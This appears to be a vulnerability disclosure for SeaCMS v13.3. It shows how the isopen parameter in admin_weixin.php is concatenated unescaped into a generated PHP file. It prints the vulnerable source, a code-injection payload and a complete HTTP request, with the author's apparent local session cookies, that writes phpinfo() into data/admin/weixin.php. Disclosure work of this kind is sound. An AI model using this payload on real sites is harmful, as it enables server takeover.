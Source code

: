 ## SeaCMS v13.3 Command Execution Vulnerability

### Introduction

SeaCMS v13.3 has a remote code execution vulnerability. This vulnerability is caused by the fact that although `admin_weixin.php` imposes certain restrictions on edited files, an attacker can still bypass these restrictions and write code in a way to splice bypass, allowing an authenticated attacker to exploit the vulnerability to execute arbitrary commands and gain system privileges.

SeaCMS official website: [SeaCMS - Open Source Free PHP Movie System, Movie CMS, Video CMS, Film CMS, SEACMS](https://www.seacms.com/)

Click to download
!()[./public/1.png]

You can see the latest version v13.3
![](./public/2.png)

### Debugging Analysis and Exploitation

The latest version v13.3 of SeaCMS contains a command execution vulnerability.  
The vulnerability is in the `0omeqd\admin_weixin.php` file, where the `isopen` parameter is vulnerable to PHP code concatenation.  
![](./public/3.png)

The full source code of this file is as follows:
```php
<?php
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__) . "/config.php");
CheckPurview();
if ($action == "set") {
	$isopen = $_POST['isopen'];
	$title = htmlspecialchars($_POST['title']);
	$url = $_POST['url'];
	$ckmov_url = $_POST['ckmov_url'];
	$follow = htmlspecialchars($_POST['follow']);
	$noc = htmlspecialchars($_POST['noc']);
	$dpic = $_POST['dpic'];
	$help = htmlspecialchars($_POST['help']);
	$topage = $_POST['topage'];
	$sql_num = intval($_POST['sql_num']);
	$dwz = $_POST['dwz'];
	$dwztoken = $_POST['dwztoken'];

	$msg1a = $_POST['msg1a'];
	$msg1b = $_POST['msg1b'];
	$msg2a = $_POST['msg2a'];
	$msg2b = $_POST['msg2b'];
	$msg3a = $_POST['msg3a'];
	$msg3b = $_POST['msg3b'];
	$msg4a = $_POST['msg4a'];
	$msg4b = $_POST['msg4b'];
	$msg5a = $_POST['msg5a'];
	$msg5b = $_POST['msg5b'];

	$open = fopen("../data/admin/weixin.php", "w");
	$str = '<?php  ';

	$str .= 'define("isopen", "';
	$str .= "$isopen";
	$str .= '"); ';
	$str .= 'define("title", "';
	$str .= "$title";
	$str .= '"); ';

	$str .= 'define("url", "';
	$str .= "$url";
	$str .= '"); ';

	$str .= 'define("ckmov_url", "';
	$str .= "$ckmov_url";
	$str .= '"); ';

	$str .= 'define("follow", "';
	$str .= "$follow";
	$str .= '"); ';

	$str .= 'define("noc", "';
	$str .= "$noc";
	$str .= '"); ';

	$str .= 'define("dpic", "';
	$str .= "$dpic";
	$str .= '"); ';

	$str .= 'define("help", "';
	$str .= "$help";
	$str .= '"); ';

	$str .= 'define("topage", "';
	$str .= "$topage";
	$str .= '"); ';

	$str .= 'define("dwz", "';
	$str .= "$dwz";
	$str .= '"); ';

	$str .= 'define("dwztoken", "';
	$str .= "$dwztoken";
	$str .= '"); ';

	$str .= 'define("sql_num", "';
	$str .= "$sql_num";
	$str .= '"); ';

	$str .= 'define("msg1a", "';
	$str .= "$msg1a";
	$str .= '"); ';
	$str .= 'define("msg1b", "';
	$str .= "$msg1b";
	$str .= '"); ';

	$str .= 'define("msg2a", "';
	$str .= "$msg2a";
	$str .= '"); ';
	$str .= 'define("msg2b", "';
	$str .= "$msg2b";
	$str .= '"); ';

	$str .= 'define("msg3a", "';
	$str .= "$msg3a";
	$str .= '"); ';
	$str .= 'define("msg3b", "';
	$str .= "$msg3b";
	$str .= '"); ';

	$str .= 'define("msg4a", "';
	$str .= "$msg4a";
	$str .= '"); ';
	$str .= 'define("msg4b", "';
	$str .= "$msg4b";
	$str .= '"); ';

	$str .= 'define("msg5a", "';
	$str .= "$msg5a";
	$str .= '"); ';
	$str .= 'define("msg5b", "';
	$str .= "$msg5b";
	$str .= '"); ';

	$str .= " ?>";
	fwrite($open, $str);
	fclose($open);
	ShowMsg("Settings saved successfully!", "admin_weixin.php");
	exit;
}
```

In the web page, this is part of the system's WeChat official account settings in the backend. We click "Confirm" and intercept the request using a proxy tool.
![](./public/4.png)

We send the `isopen` parameter and inject PHP code. The payload is as follows (note that the request needs to be URL-encoded):
```r
isopen=n");phpinfo();define("isopen", "n
```
![](./public/5.png)

The complete HTTP request is as follows:
```http
POST /0omeqd/admin_weixin.php?action=set HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1216
Origin: http://localhost
Connection: close
Referer: http://localhost/0omeqd/admin_weixin.php
Cookie: XDEBUG_SESSION=AFCC; csrftoken=N1K4gile3UYv5N2MXM1ShwrrDTIW4JlfeGUS9a3XNzAxoXvHZ3itSuzzfFW4qdo8; devicePixelRatio=2; Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; EM_AUTHCOOKIE_Is4qa70oOAoxVSN06kHCjdfvPUF6AvMI=admin%7C1768614317%7Cbce91a6d0efcfa837abca98d5feac895; EM_AUTHCOOKIE_H8GRtC1y0GuSnpOqCfrakVi13LpyC3uP=admin%7C1768664135%7C5c9e0424faa5c1136742a65bf62cfb85; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MTA6InBocCB8IHBocD8iO3M6MzoiYWxsIjtpOjA7czozOiJodGEiO2k6MTt9; PHPSESSID=sc3q3bgfniuuuj7s6et90vh3k8
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

isopen=n")%3bphpinfo()%3bdefine("isopen",+"n&url=https%3A%2F%2Fwww.seacms.com&title=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86&ckmov_url=https%3A%2F%2Fwww.seacms.com%2Fvip.php%3Furl%3D+&dpic=https%3A%2F%2Fwww.seacms.com%2Fapi%2Fwx.jpg&follow=%E6%84%9F%E8%B0%A2%E6%82%A8%E7%9A%84%E5%85%B

3%E6%B3%A8%E3%80%82&noc=%E6%9A%82%E6%97%A0%E4%BD%A0%E8%A6%81%E7%9A%84%E5%86%85%E5%AE%B9%E3%80%82&help=%E8%BF%99%E6%98%AF%E5%B8%AE%E5%8A%A9%E4%BF%A1%E6%81%AF%E3%80%82&topage=d&dwz=n&dwztoken=dwztoken&sql_num=15&msg1a=%E5%85%B3%E9%94%AE%E8%AF%8D1&msg1b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B91&msg2a=%E5%85%B3%E9%94%AE%E8%AF%8D2&msg2b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B92%3Ca+href%3D%27http%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%E6%B5%8B%E8%AF%95%3C%2Fa%3E%EF%BC%8C%E6%B5%8B%E8%AF%95%E7%BB%93%E6%9D%9F%E3%80%82&msg3a=%E5%85%B3%E9%94%AE%E8%AF%8D3&msg3b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B93&msg4a=%E5%85%B3%E9%94%AE%E8%AF%8D4&msg4b=%E5%85%B3%E9%94%AE%E8%AF%8D%E5%9B%9E%E5%A4%8D%E7%9A%84%E5%86%85%E5%AE%B94&msg5a=%E5%85%B3%E9%94%AE%E8%AF%8D5&msg5b=%3Ca+href%3D%27https%3A%2F%2Fwww.seacms.com%27%3E%E9%93%BE%E6%8E%A5%3C%2Fa%3E
```

Upon debugging and setting breakpoints, we can see that the `phpinfo();` was successfully injected into the `str` variable.
![](./public/6.png)


After accessing the PHP path, the injected PHP code is successfully executed:
![](./public/7.png)

```r
data/admin/weixin.php
```
![](./public/8.png)
